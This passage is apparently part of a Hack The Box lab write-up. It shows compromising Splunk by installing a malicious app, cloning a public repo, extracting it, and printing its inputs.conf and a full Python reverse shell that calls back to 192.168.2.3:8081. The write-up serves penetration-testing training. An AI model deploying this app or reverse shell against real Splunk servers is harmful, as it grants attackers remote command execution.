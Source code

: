 #### Malicious Splunk App

I researched how to compromise Splunk and found that a malicious App containing a reverse shell could be installed to launch a reverse shell.
https://github.com/DimopoulosElias/SplunkAppShell has an example of this.

The repo was cloned.
```
fcoomans@kali:~/htb/haze$ git clone https://github.com/DimopoulosElias/SplunkAppShell.git
Cloning into 'SplunkAppShell'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 9 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), done.
```

And the `rce.tgz` file was extracted.  It contains a python script and a conf file.
```
fcoomans@kali:~/htb/haze$ cd SplunkAppShell

fcoomans@kali:~/htb/haze/SplunkAppShell$ tar xvzf rce.tgz
upload_app_exec/
upload_app_exec/default/
upload_app_exec/default/inputs.conf
upload_app_exec/bin/
upload_app_exec/bin/reverse_shell.py

fcoomans@kali:~/htb/haze/SplunkAppShell$ tree upload_app_exec
upload_app_exec
├── bin
│   └── reverse_shell.py
└── default
    └── inputs.conf

3 directories, 2 files
```

The conf file appears to contain the script to be used for the App on both Windows and Linux.
```
fcoomans@kali:~/htb/haze/SplunkAppShell$ cat upload_app_exec/default/inputs.conf
[script://.\bin\reverse_shell.py]
disabled = 0
interval = 10
sourcetype = windows

[script://./bin/reverse_shell.py]
disabled = 0
interval = 10
sourcetype = linux
```

The script contains a reverse shell.  
I tried this package after updating the IP, but the reverse shell kept closing.
```
fcoomans@kali:~/htb/haze/SplunkAppShell$ cat upload_app_exec/bin/reverse_shell.py
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.2.3', 8081))

while True:
    command = s.recv(1024)
    win_lin_shell = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    s.send( win_lin_shell.stdout.read() )
```